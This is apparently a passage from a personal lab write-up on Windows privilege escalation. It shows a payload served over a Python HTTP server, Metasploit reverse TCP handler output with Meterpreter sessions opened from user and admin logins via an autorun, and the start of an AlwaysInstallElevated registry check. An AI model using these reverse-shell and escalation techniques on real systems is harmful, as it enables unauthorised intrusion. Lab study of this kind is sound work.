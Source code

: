 I changed out the text to say tun0 instead of my IP.  Keep using your IP when you can.

Now we need to move the program.exe to the target machine.  We can do this with a simple http server with python

`python -m http.server 80`

Then use the browser on the target to connect to our http server and download the file into the correct folder and run it.  And when we check the listener that we set in Metasploit, we get the following.

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.6.x.x:4444 
[*] Sending stage (176198 bytes) to 10.10.85.199
[*] Meterpreter session 1 opened (10.6.x.x:4444 -> 10.10.85.199:49302) at 2024-10-22 00:26:28 -0400

meterpreter > pwd
C:\Users\user\Desktop
```

We're still just the user though.  Exit out of that meterpreter, re-ran the handler.  Went to the device, selected the disconnect option and then reconnected via the rdesktop and this time logged in with the admin account.

Once logged in, I was prompted to run the auto run file that we had put in the file.  Once we ran that, we got a new session but this time, we get the following

```
[*] Started reverse TCP handler on 10.6.x.x:4444 
[*] Sending stage (176198 bytes) to 10.10.85.199
[*] Meterpreter session 2 opened (10.6.x.x:4444 -> 10.10.85.199:49310) at 2024-10-22 00:31:31 -0400

meterpreter > pwd
C:\Windows\system32
```

Tried `getsystem` after that but didn't work.

### AlwaysInstallElevated

This is a registry setting that can be taken advantage of.  If it's set, it allows programs to automatically be installed as Administrator.

Check this by checking the following

`reg query HKLM\Software\Policies\Microsoft\Windows\Installer`

![[2024-10-22 00_53_24-Window.png]]

As we see, the 0x1 means that it's set to 1 or on.

Check the following and make see if that one is the same.

`reg query HKCU\Software\Policies\Microsoft\Windows\Installer`

![[2024-10-22 00_55_31-Window.png]]
